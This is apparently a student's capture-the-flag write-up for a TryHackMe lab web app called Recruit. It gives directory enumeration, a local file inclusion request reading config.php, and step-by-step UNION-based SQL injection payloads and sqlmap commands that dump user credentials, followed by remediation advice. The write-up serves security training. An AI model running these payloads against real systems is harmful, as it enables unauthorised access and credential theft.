```http
Table of Contents
```
**Background/Context**
- [[#^chall-desc|Challenge Description]]
- [[#^build-up|Build Up]]
- [[#^tools-env|Tools and Environment]]
- [[#^walk-overview|Walkthrough Overview]]
**Walkthrough**
- [[#^flag-1|Flag 1]]
- [[#^flag-2-m|Flag 2: Manual Approach]]
- [[#^flag-2-a|Flag 2: Automated Approach]]
**Reporting**
- [[#^retro-analysis|Retrospective Analysis]]
- [[#^learning|Information/Knowledge Learned]]
- [[#^miscellaneous|Miscellaneous]]

```http
Challenge Description
```
"***Recruit** has just launched its new recruitment portal, allowing HR staff to manage candidate applications and administrators to oversee hiring decisions. While the platform appears functional, management suspects that security may have been overlooked during development. Your task is to assess the application like a real attacker, mapping its structure, abusing exposed functionality, and exploiting vulnerabilities.*
^chall-desc

*Can you gain an initial foothold, escalate your access, and ultimately log in as the **administrator?***"

There are two flags:


```http
Build-Up
```
In the lead up to this challenge, I completed several TryHackMe rooms relevant to Recruit. In the Jr. Penetration Tester path, there is a module named **Web Application Vulnerabilities I** which contains these rooms:

As seen, I completed all of them, the last one being the Recruit challenge. This leads me to believe that the knowledge from these prior rooms will be instrumental to solving the Recruit challenge and obtaining the flags.  ^build-up

```http
Tools and Environment
```
**Laptop:**
- Lenovo LEGION
- Storage: ~1 TB
- Graphics card, Processor and RAM are high end
^tools-env

**Operating Systems/Virtual Machines:**
- Home/host system: Windows 11 Home Edition
- Virtual Machine Software: Oracle VirtualBox
- Virtual Machine: Kali Linux
	- Bidirectional clipboard
	- No extensions

**General Software:**
- Linux Terminal
	- Basic Linux commands
	- Gobuster
	- SQLMap
- Obsidian
	- Stored screenshots, data, information
	- Used to create this writeup
- Firefox Browser
	- Devtools
	- Site navigation
- TryHackMe OpenVPN 

```http
Walkthrough Overview
```
**Flag 1:**
- Reconnaissance Phase
	- Navigated website
	- Enumerated endpoints via Gobuster
	- Documented new content discovery
- Exploitation Phase
	- Explored new content discovery
	- Information disclosure found and exploited
	- LFI found and exploited
- Post-Exploitation Phase
	- Discovered leaked credentials
	- Successful login as `hr`
^walk-overview

**Flag 2:**
- Reconnaissance Phase
	- Input form discovered
	- Attack vector (SQL) determined
	- Captured request to input form
- Exploitation Phase
	- Manual SQL injection
	- Automated SQL injection
- Post-Exploitation Phase
	- Discovered leaked credentials
	- Successful re-login in as `admin`

```http
Walkthrough
```

**Flag 1:**
^flag-1
- First navigate to: 
```
http://10.82.175.157/
```

- This is the login challenge. Discover the leaked credentials and input them into this login form.
- The only other page here that can be viewed is the API page:

- This will be useful for later as a possible attack vector due to local file inclusion (LFI) via `/file.php?cv=<URL>`.

- Page source and network tab do not reveal anything immediately interesting and thus suggest further content discovery is well hidden.
- Thus Gobuster is an obvious choice to find more about the website:
```bash
gobuster dir -u "http://10.82.175.157/" -w /usr/share/seclists/Discovery/Web-Content/common.txt
```

- The `/assets/` and `sitemap.xml` endpoints are interesting and are worth documenting to come back to later.
- However, the `/mail/` endpoint is highly interesting as it contains unintended information disclosure:

- The username: `hr` has been provided, as well as the steps to discovering the password which include the aforementioned LFI discovered.
- Further, the admin credentials are said to be stored in the backend database. 
	- This will be useful for flag 2.

- Navigate to:
```
http://10.82.175.157/file.php
```

- From the information we know before, the format for retrieving data is `/file.php?cv=<URL>`
- Test the following:
```
http://10.82.175.157/file.php?cv=http://10.82.175.157/config.php
```

- The response indicates a standard link wont work, and that the file should be referred to as a local file:
```
http://10.82.175.157/file.php?cv=file:///var/www/html/config.php
```

- The standard credentials are now known:
	- Username: `hr.`
	- Password: `hrpassword123`.



**Flag 2 Manual Approach:**
^flag-2-m
- As seen from the success of the first flag, there is a "Search candidate name" input field.
- Also from flag 1's findings, we know the admin credentials are stored in the backend database, and thus SQL injection should be tested.

- First test a `'` statement inside the input field to confirm SQL injection is possible:

- This error message confirms an SQL injection attack vector and should be tested further.

- Enumerate and increment the number in this query. When it displays an error message, the number of columns will be one less than the number of the error query:
```sql
' ORDER BY 1 -- -
```
```sql
' ORDER BY 2 -- -
```
```sql
' ORDER BY ... -- -
```
```sql
' ORDER BY 5 -- -
```

- One less than five is four, thus there are four columns.

- Next is confirming the allowance of `UNION` queries:
```sql
' UNION SELECT 1,2,3,4 -- -
```

- `UNION` queries are not blocked or filtered out and can thus be used.

- Discover the name of the database:
```sql
' UNION SELECT 1,2,3,database() -- -
```

- In the last row, the "Status" column reveals the database name as `recruit_db`.

- Display the tables in `recruit_db`:
```sql
' UNION SELECT 1,2,3,group_concat(table_name) FROM information_schema.tables WHERE table_schema = 'recruit_db' -- -
```

- There are two tables: `candidates` and `users`.
	- `users` is of interest to us as we are trying to discover credentials.

- Find the names of the columns in the `users` table:
```sql
' UNION SELECT 1,2,3,group_concat(column_name) FROM information_schema.columns WHERE table_name = 'users' -- -
```

- Much of these columns are not of interest to us, but the last two, `password` and `username` are particularly interesting.

- Extract the contents of the `password` and `username` columns in the `users` table:
```sql
' UNION SELECT 1,2,3,group_concat(username,':',password SEPARATOR '<br>') FROM users -- -
```

- The admin credentials have now been revealed:
	- Username: `admin`.
	- Password: `admin@001admin`.



**Flag 2: Automated Approach**
^flag-2-a
- There is an easier method to enumerating the database via SQL injection involving `sqlmmap`. Here are the steps to do so:

- Capture a request to the Search input field via the devtools network tab:

- Save it to a text file:


- Feed the request as input to sqlmap with parameters `-r` and `-dbs` to search for the database name.
	- `-r` reads the input file (in this case, req.txt).
	- `-dbs` enumerates databases.
- Full command:
```bash
sqlmap -r req.txt -dbs
```

- `recruit_db` is the database name we want to investigate.

- Do the same for tables inside `recruit_db` with parameters `-D` and `--tables`
	- `-D` is to target the database specified (`recruit_db`).
	- `--tables` is to enumerate tables.
- Full command:
```bash
sqlmap -r req.txt -D recruit_db --tables  
```

- `users` is the table name we want to investigate.

- Dump the contents of the `users` table with parameters with `-T` and `-dump`
	- `-T` is to target the table specified (`users`)
	- `-dump` is to dump the contents of the table
- Full command:
```sql
sqlmap -r req.txt -D recruit_db -T users -dump
```

- The admin credentials have now been revealed:
	- Username: `admin`.
	- Password: `admin@001admin`.


```http
Reporting
```
**Retrospective Analysis**
There are three key vulnerabilities with this web application which cause major security concerns:  
^retro-analysis
- Information Disclosure.
- LFI - Local File Inclusion.
- SQL Injection.
Information disclosure allows the attacker to discover not only the default username of a normal HR employee, but also how to discover the default password. LFI builds on top of the information disclosure, allowing the discovery of the default password. SQL injection builds on top of both the information disclosure and LFI because the input form can only be viewed once logged in, and leads to the discovery of the admin credentials once exploited.

To remediate, an audit of publicly accessible content should be conducted and sensitive information should be removed, so that information disclosure does not occur. Next, a more secure system to retrieve candidate CVs should be in placed that does not allow local file retrieval, which may require an overhaul of this featured. Finally, prepared statements should be applied to the input form so that each input is not treated as SQL code, preventing SQL injection.

**Information/Knowledge Learned**
I was able to discover the information disclosure on my own, and I was able to try test inputs on the LFI myself as well. But I did not realise I had to refer to the file as `file:///var/www/html/config.php` and was instead having trouble due to including its absolute URL link rather than its reference as a local file. I now have learned to do this in future for LFI. 
^learning

I also learned how to properly automate my SQL injection via `sqlmap`. I did this by examining the `--help` options and crafting my commands accordingly. As for the manual SQL injection, I initially had trouble with proper syntaxing because I made two mistakes:
- Initially, after the `'`, I put a number, thinking this was necessary due to the ID column
- I initially did not put `-- -` at the end of my syntax, and instead tried `;--`
I rectified these mistakes and continued with my payloads accordingly, managing to successfully exploit the application.

**Miscellaneous**
This is a challenge room that I completed as part of my broader goal to complete the TryHackMe Jr Penetration Tester path and receive its certification. I am aspiring to eventually enroll into and complete the OSCP to add to my portfolio (my degree and my internship). These write-ups are a standard practice I want to do with consistency which are also further tied to my broader goals. 
^miscellaneous